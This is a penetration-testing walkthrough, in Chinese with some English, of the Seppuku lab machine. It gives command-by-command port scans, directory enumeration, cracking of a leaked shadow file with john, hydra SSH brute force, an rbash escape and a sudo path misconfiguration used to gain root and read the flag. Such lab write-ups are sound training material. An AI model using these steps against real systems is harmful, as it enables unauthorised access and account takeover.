







# Seppuku
## 端口枚举-(Ports Enumerate)
### 全端口扫描(Full-Ports Scanning)
```
└─$ sudo nmap -p- 192.168.146.61                                     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-04 13:54 HKT
Nmap scan report for 192.168.146.61
Host is up (0.00018s latency).
Not shown: 65527 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
7080/tcp open  empowerid
7601/tcp open  unknown
8088/tcp open  radan-http
MAC Address: 00:0C:29:8E:C4:4E (VMware)

Nmap done: 1 IP address (1 host up) scanned in 8.19 seconds
```
### 指定端口扫描-(Specify Scanning)
```
└─$ sudo nmap -p21,22,80,139,445,7080,7601,8088 -sV -A 192.168.146.61
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-04 13:56 HKT
Nmap scan report for 192.168.146.61
Host is up (0.00038s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 cd:55:a8:e4:0f:28:bc:b2:a6:7d:41:76:bb:9f:71:f4 (RSA)
|   256 16:fa:29:e4:e0:8a:2e:7d:37:d2:6f:42:b2:dc:e9:22 (ECDSA)
|_  256 bb:74:e8:97:fa:30:8d:da:f9:5c:99:f0:d9:24:8a:d5 (ED25519)
80/tcp   open  http        nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: 401 Authorization Required
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/http    LiteSpeed httpd
|_http-server-header: LiteSpeed
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
| ssl-cert: Subject: commonName=seppuku/organizationName=LiteSpeedCommunity/stateOrProvinceName=NJ/countryName=US
| Not valid before: 2020-05-13T06:51:35
|_Not valid after:  2022-08-11T06:51:35
|_http-title:  404 Not Found
7601/tcp open  http        Apache httpd 2.4.38 ((Debian))
|_http-title: Seppuku
|_http-server-header: Apache/2.4.38 (Debian)
8088/tcp open  http        LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title: Seppuku
MAC Address: 00:0C:29:8E:C4:4E (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: Host: SEPPUKU; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: seppuku
|   NetBIOS computer name: SEPPUKU\x00
|   Domain name: \x00
|   FQDN: seppuku
|_  System time: 2022-08-04T01:57:22-04:00
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: SEPPUKU, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-08-04T05:57:22
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.38 ms 192.168.146.61

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.28 seconds
```
## 信息描述(Information Description)
### 21端口
ftp不支持匿名登录, Ftp didn't support login as anonymous
```
└─$ ftp 192.168.146.61 21  
Connected to 192.168.146.61.
220 (vsFTPd 3.0.3)
Name (192.168.146.61:aaron): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> exit
221 Goodbye.
```
### 80端口
使用Nikto进行扫描
```
┌──(aaron㉿aacai)-[~/Desktop/Seppuku]
└─$ nikto -h "http://192.168.146.61"
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.146.61
+ Target Hostname:    192.168.146.61
+ Target Port:        80
+ Start Time:         2022-08-04 13:59:59 (GMT8)
---------------------------------------------------------------------------
+ Server: nginx/1.14.2
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ / - Requires Authentication for realm 'Restricted Content'
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /info.php: Output from the phpinfo() function was found.
+ OSVDB-3233: /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ OSVDB-5292: /info.php?file=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ 8066 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2022-08-04 14:00:16 (GMT8) (17 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
使用Dirsearch扫描目录
```
┌──(aaron㉿aacai)-[~/Desktop/Seppuku]
└─$ dirsearch -u "http://192.168.146.61"

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/aaron/.dirsearch/reports/192.168.146.61/_22-08-04_14-01-20.txt

Error Log: /home/aaron/.dirsearch/logs/errors-22-08-04_14-01-20.log

Target: http://192.168.146.61/

[14:01:20] Starting: 
[14:01:47] 200 -   79KB - /info.php

Task Completed
```
由于直接访问80端口需要密码, 所以只扫描出来了info.php


### 7080端口
在主页当中返回404并且没有其他内容
<br>

Dirsearch
```
┌──(aaron㉿aacai)-[~/Desktop/Seppuku]
└─$ cat 7080_dirsearch.txt| grep "200"          
[14:09:13] 200 -    5KB - /docs/
[14:09:15] 200 -    1KB - /favicon.ico
```
访问docs发现显示了webserver的版本信息

使用dirb去枚举7080端口下所有的文件
<br>

```
└─$ dirb "https://192.168.146.61:7080/" /usr/share/wordlists/dirb/big.txt                                             
---- Scanning URL: https://192.168.146.61:7080/ ----
==> DIRECTORY: https://192.168.146.61:7080/docs/                                                                                                                      
+ https://192.168.146.61:7080/favicon.ico (CODE:200|SIZE:1150)                                                                                                        
==> DIRECTORY: https://192.168.146.61:7080/lib/                                                                                                                       
==> DIRECTORY: https://192.168.146.61:7080/res/                                                                                                                       
==> DIRECTORY: https://192.168.146.61:7080/view/                                                                                                                      
                                                                                                                                                                      
---- Entering directory: https://192.168.146.61:7080/docs/ ----
==> DIRECTORY: https://192.168.146.61:7080/docs/css/                                                                                                                  
==> DIRECTORY: https://192.168.146.61:7080/docs/img/                                                                                                                  
                                                                                                                                                                      
---- Entering directory: https://192.168.146.61:7080/lib/ ----
==> DIRECTORY: https://192.168.146.61:7080/lib/ows/                                                                                                                   
==> DIRECTORY: https://192.168.146.61:7080/lib/util/                                                                                                                  
                                                                                                                                                                      
---- Entering directory: https://192.168.146.61:7080/res/ ----
==> DIRECTORY: https://192.168.146.61:7080/res/css/                                                                                                                   
==> DIRECTORY: https://192.168.146.61:7080/res/fonts/                                                                                                                 
==> DIRECTORY: https://192.168.146.61:7080/res/img/                                                                                                                   
==> DIRECTORY: https://192.168.146.61:7080/res/js/                                                                                                                    
==> DIRECTORY: https://192.168.146.61:7080/res/lang/   
```
但是访问访问上面的所有目录的时候, 均返回了404
<br>

### 7601端口
访问7601端口的时候, 只有一张图片在主页面上

Nikto 
```
┌──(aaron㉿aacai)-[~/Desktop/Seppuku]
└─$ nikto -h "http://192.168.146.61:7601"
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.146.61
+ Target Hostname:    192.168.146.61
+ Target Port:        7601
+ Start Time:         2022-08-04 14:21:59 (GMT8)
---------------------------------------------------------------------------
+ Server: Apache/2.4.38 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: ab, size: 5a58219394d90, mtime: gzip
+ Allowed HTTP Methods: OPTIONS, HEAD, GET, POST 
+ OSVDB-3268: /c/: Directory indexing found.
+ OSVDB-3092: /c/: This might be interesting...
+ OSVDB-3268: /secret/: Directory indexing found.
+ OSVDB-3092: /secret/: This might be interesting...
+ OSVDB-3268: /database/: Directory indexing found.
+ OSVDB-3093: /database/: Databases? Really??
+ OSVDB-3268: /a/: Directory indexing found.
+ OSVDB-3233: /a/: May be Kebi Web Mail administration menu.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /ckeditor/ckeditor.js: CKEditor identified. This file might also expose the version of CKEditor.
+ /ckeditor/CHANGES.md: CKEditor Changelog identified.
+ 7918 requests: 0 error(s) and 16 item(s) reported on remote host
+ End Time:           2022-08-04 14:22:19 (GMT8) (20 seconds)
---------------------------------------------------------------------------

```
但是当我使用Nikto扫描的时候, 给了我一个惊喜, 在secret目录下有几个文件
<br>

全部下载下来查看
<br>
这里不仅给我们提供了shadow的backup文件
<br>
同样还给了我们一个密码本..
<br>
使用john搭配密码本进行破解
```
┌──(aaron㉿aacai)-[~/Downloads]
└─$ john --wordlist=password.lst shadow.bak                     
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
a1b2c3           (r@bbit-hole)     
1g 0:00:00:00 DONE (2022-08-04 14:26) 33.33g/s 3100p/s 3100c/s 3100C/s 123456
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
但是当我尝试使用密码进行ssh登录的时候, 发现密码错误
```
┌──(aaron㉿aacai)-[~/Downloads]
└─$ ssh r@bbit-hole@192.168.146.61
The authenticity of host '192.168.146.61 (192.168.146.61)' can't be established.
ED25519 key fingerprint is SHA256:yqHsz+l+Cix5O58VkGbVjW7gVhK1bynHhawiKrqXN/8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.146.61' (ED25519) to the list of known hosts.
r@bbit-hole@192.168.146.61's password: 
Permission denied, please try again.
r@bbit-hole@192.168.146.61's password: 
Permission denied, please try again.
r@bbit-hole@192.168.146.61's password: 
r@bbit-hole@192.168.146.61: Permission denied (publickey,password).

```
使用dirsearch扫描
```
┌──(aaron㉿aacai)-[~/Desktop/Seppuku]
└─$ cat 7601_dirsearch.txt| grep "200\|301"
[14:35:09] 301 -  319B  - /a  ->  http://192.168.146.61:7601/a/             
[14:35:16] 301 -  319B  - /b  ->  http://192.168.146.61:7601/b/             
[14:35:17] 301 -  319B  - /c  ->  http://192.168.146.61:7601/c/             
[14:35:18] 301 -  326B  - /ckeditor  ->  http://192.168.146.61:7601/ckeditor/
[14:35:18] 200 -    7KB - /ckeditor/                                        
[14:35:19] 301 -  319B  - /d  ->  http://192.168.146.61:7601/d/             
[14:35:20] 301 -  326B  - /database  ->  http://192.168.146.61:7601/database/
[14:35:20] 200 -  749B  - /database/                                        
[14:35:21] 301 -  319B  - /e  ->  http://192.168.146.61:7601/e/             
[14:35:22] 301 -  319B  - /f  ->  http://192.168.146.61:7601/f/             
[14:35:23] 301 -  319B  - /h  ->  http://192.168.146.61:7601/h/             
[14:35:24] 200 -  171B  - /index.html                                       
[14:35:34] 301 -  319B  - /q  ->  http://192.168.146.61:7601/q/             
[14:35:34] 301 -  319B  - /r  ->  http://192.168.146.61:7601/r/             
[14:35:35] 301 -  324B  - /secret  ->  http://192.168.146.61:7601/secret/   
[14:35:35] 200 -    2KB - /secret/
[14:35:39] 301 -  319B  - /t  ->  http://192.168.146.61:7601/t/   
                                                                                                                                                                       
┌──(aaron㉿aacai)-[~/Desktop/Seppuku]
└─$ 

```
发现还存在一个ckeditor目录

发现这是一个CKEditor的主页
搜索漏洞并没有发现有针对该程序的直接可执行漏洞

### 8088端口

访问8088端口的时候, 发现主页面的图片跟7601的图片一样.
<br>
使用nikto扫描
```
└─$ nikto -h "http://192.168.146.61:8088"
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.146.61
+ Target Hostname:    192.168.146.61
+ Target Port:        8088
+ Start Time:         2022-08-04 14:31:30 (GMT8)
---------------------------------------------------------------------------
+ Server: LiteSpeed
+ Server may leak inodes via ETags, header found with file /, inode: ab, size: 5ebb9a5f, mtime: 215e6;;;
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.6.36
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Multiple index files found: /index.php, /index.html
+ 7921 requests: 4 error(s) and 6 item(s) reported on remote host
+ End Time:           2022-08-04 14:33:06 (GMT8) (96 seconds)
---------------------------------------------------------------------------

```
发现还存在一个index.php文件

访问并尝试了给我们的用户名和密码, 但是还是密码错误
<br>
dirsearch的结果与7601端口结果差不多
```
┌──(aaron㉿aacai)-[~/Desktop/Seppuku]
└─$ dirsearch -u "http://192.168.146.61:8088" 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/aaron/.dirsearch/reports/192.168.146.61-8088/_22-08-04_14-43-42.txt

Error Log: /home/aaron/.dirsearch/logs/errors-22-08-04_14-43-42.log

Target: http://192.168.146.61:8088/

[14:43:42] Starting: 
[14:43:57] 301 -    1KB - /cgi-bin  ->  http://192.168.146.61:8088/cgi-bin/
[14:44:00] 200 -    5KB - /docs/
[14:44:00] 301 -    1KB - /docs  ->  http://192.168.146.61:8088/docs/
[14:44:05] 200 -  171B  - /index.html
[14:44:08] 200 -  159KB - /index.php
[14:44:09] 200 -  159KB - /index.php/login/

Task Completed

```
看来主要的关键点还是在7601端口, 让我们回到7601端口

### 二次信息收集7601端口
dirb
```
---- Scanning URL: http://192.168.146.61:7601/ ----
==> DIRECTORY: http://192.168.146.61:7601/a/                                                                                                                          
==> DIRECTORY: http://192.168.146.61:7601/b/                                                                                                                          
==> DIRECTORY: http://192.168.146.61:7601/c/                                                                                                                          
==> DIRECTORY: http://192.168.146.61:7601/ckeditor/                                                                                                                   
==> DIRECTORY: http://192.168.146.61:7601/d/                                                                                                                          
==> DIRECTORY: http://192.168.146.61:7601/database/                                                                                                                   
==> DIRECTORY: http://192.168.146.61:7601/e/                                                                                                                          
==> DIRECTORY: http://192.168.146.61:7601/f/                                                                                                                          
==> DIRECTORY: http://192.168.146.61:7601/h/                                                                                                                          
+ http://192.168.146.61:7601/index.html (CODE:200|SIZE:171)                                                                                                           
==> DIRECTORY: http://192.168.146.61:7601/keys/                                                                                                                       
==> DIRECTORY: http://192.168.146.61:7601/production/                                                                                                                 
==> DIRECTORY: http://192.168.146.61:7601/q/                                                                                                                          
==> DIRECTORY: http://192.168.146.61:7601/r/                                                                                                                          
==> DIRECTORY: http://192.168.146.61:7601/secret/                                                                                                                     
+ http://192.168.146.61:7601/server-status (CODE:403|SIZE:281)                                                                                                        
==> DIRECTORY: http://192.168.146.61:7601/t/                                                                                                                          
==> DIRECTORY: http://192.168.146.61:7601/w/      
```
发现还存在两个我们在dirsearch里面没有看到的目录
<br>

keys里面存放了两个private文件

<br>
发现竟然是ssh登录密钥
<br>
根据secret的hostname尝试使用ssh密钥登录
<br>

```
┌──(aaron㉿aacai)-[~/Desktop/Seppuku]
└─$ ssh seppuku@192.168.146.61 -i private 
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'private' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "private": bad permissions
seppuku@192.168.146.61's password: 

                                                                                                                                                                       
┌──(aaron㉿aacai)-[~/Desktop/Seppuku]
└─$ chmod 400 private                      
                                                                                                                                                                       
┌──(aaron㉿aacai)-[~/Desktop/Seppuku]
└─$ ssh seppuku@192.168.146.61 -i private
seppuku@192.168.146.61's password: 

                                                                                                                                                                       
┌──(aaron㉿aacai)-[~/Desktop/Seppuku]
└─$ ssh r@bbit-hole@192.168.146.61 -i private
r@bbit-hole@192.168.146.61's password: 

```
全都失败了...
<br>
那就只能用hydra尝试暴力破解了
<br>

```
┌──(aaron㉿aacai)-[~/Desktop/Seppuku]
└─$ hydra -l seppuku 192.168.146.61 ssh -P password.lst
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-04 14:57:36
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 93 login tries (l:1/p:93), ~6 tries per task
[DATA] attacking ssh://192.168.146.61:22/
[22][ssh] host: 192.168.146.61   login: seppuku   password: eeyoree

```
还真爆破出来了...
## 提升权限(Privilege Escalation)
使用ssh登录
```
seppuku@seppuku:~$ whoami
seppuku
seppuku@seppuku:~$ id
uid=1000(seppuku) gid=1000(seppuku) groups=1000(seppuku),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
seppuku@seppuku:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:8e:c4:4e brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.61/24 brd 192.168.146.255 scope global dynamic ens33
       valid_lft 68084sec preferred_lft 68084sec
    inet6 fe80::20c:29ff:fe8e:c44e/64 scope link 
       valid_lft forever preferred_lft forever
seppuku@seppuku:~$ 

```
查看目录下的文件
```
seppuku@seppuku:~$ ls -al
total 28
drwxr-xr-x 3 seppuku seppuku 4096 Aug  4 02:00 .
drwxr-xr-x 5 root    root    4096 May 13  2020 ..
-rw-r--r-- 1 seppuku seppuku  220 May 13  2020 .bash_logout
-rw-r--r-- 1 seppuku seppuku 3526 May 13  2020 .bashrc
drwx------ 3 seppuku seppuku 4096 May 13  2020 .gnupg
-rw-r--r-- 1 root    root      20 May 13  2020 .passwd
-rw-r--r-- 1 seppuku seppuku  807 May 13  2020 .profile
seppuku@seppuku:~$ cat .passwd
12345685213456!@!@A

```
竟然有个.passwd文件
<br>
查看内容尝试su到root
```
seppuku@seppuku:~$ su root
Password: 
su: Authentication failure

```
失败了, 但是我发现当我想cd去目录的时候, 无法执行
```
seppuku@seppuku:~$ cd /home
-rbash: cd: restricted
seppuku@seppuku:~$ exit
logout
-rbash: /usr/bin/clear_console: restricted: cannot specify `/' in command names
Connection to 192.168.146.61 closed.

```

<br>
并发现这是个rbash环境, 所以退出ssh, 尝试绕过rbash

```
└─$ ssh seppuku@192.168.146.61 -t "bash --noprofile"
seppuku@192.168.146.61's password: 
seppuku@seppuku:~$ cd /home
seppuku@seppuku:/home$ 
```
一次成功
<br>
接下来查看一下/home下面的用户
```
seppuku@seppuku:/home$ ls -al
total 20
drwxr-xr-x  5 root    root    4096 May 13  2020 .
drwxr-xr-x 18 root    root    4096 May 13  2020 ..
drwxr-xr-x  3 samurai samurai 4096 Aug  4 02:00 samurai
drwxr-xr-x  3 seppuku seppuku 4096 Aug  4 03:01 seppuku
drwxr-xr-x  5 tanto   tanto   4096 Aug  4 02:00 tanto
seppuku@seppuku:/home$ 

```
发现除了当前用户, 这个靶机上面还有另外两个用户, 我们刚进来的时候能发现一个.passwd文件, 先尝试用那个密码登录这两个用户中的其中一个
```
seppuku@seppuku:/home$ su samurai
Password: 
samurai@seppuku:/home$ 
```
果然, 这个密码是另一个用户的, 查看这个用户的sudo -l权限
```
samurai@seppuku:/home$ sudo -l
Matching Defaults entries for samurai on seppuku:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User samurai may run the following commands on seppuku:
    (ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*

```
有权限, 但是是在tanto用户目录下的
<br>

```
samurai@seppuku:/home$ cd seppuku/
rbash: cd: restricted
samurai@seppuku:/home$ 
```
但是... 我又发现了我是rbash
<br>
所以退出去重新绕过
<br>
不过我们此刻手上的sshkey可能就派上用场了(之前在secret中下载的)
```
┌──(aaron㉿aacai)-[~/Desktop/Seppuku]
└─$ ls
7080_dirsearch.txt  7601_dirsearch.txt  passwd.bak  password.lst  private  shadow.bak
                                                                                                                                                                       
┌──(aaron㉿aacai)-[~/Desktop/Seppuku]
└─$ ssh -i private tanto@192.168.146.61 -t "bash --noprofile"
tanto@seppuku:~$ ls
tanto@seppuku:~$ 
```
这个sshkey竟然是这个用户的... 确实没想到, anyway,我们登录上来了
<br>
在tanto用户的目录下创建一个.cgi_bin/bin 写入/bin/bash,切换到samurai用户, 再尝试调用.
## 提权成功
```
tanto@seppuku:~$ su samurai
Password: 
samurai@seppuku:/home/tanto$ sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
root@seppuku:/home/tanto# id
uid=0(root) gid=0(root) groups=0(root)
root@seppuku:/home/tanto# cd /root
root@seppuku:~# ls
root.txt
root@seppuku:~# cat root.txt
{SunCSR_Seppuku_2020_X}
root@seppuku:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:8e:c4:4e brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.61/24 brd 192.168.146.255 scope global dynamic ens33
       valid_lft 67084sec preferred_lft 67084sec
    inet6 fe80::20c:29ff:fe8e:c44e/64 scope link 
       valid_lft forever preferred_lft forever
root@seppuku:~# whoami
root
root@seppuku:~# 
```



## 总结
这个靶机其实挺简单的, 不过就是很多坑, 需要一点点的去找, 一开始我们获得的ssh密码并没有用, 后面还是靠爆破出来的
<br>
所以在面对不同靶机的时候, 要发掘自己不同的思路, 不能按照一个方向往死里打, 这样并不会有效果, 反而会浪费时间.
<br>
所以, 牢记一句话, "Try Harder".
<br>
任何的靶机总会有漏洞, 思路对了, 就都能做的出来.
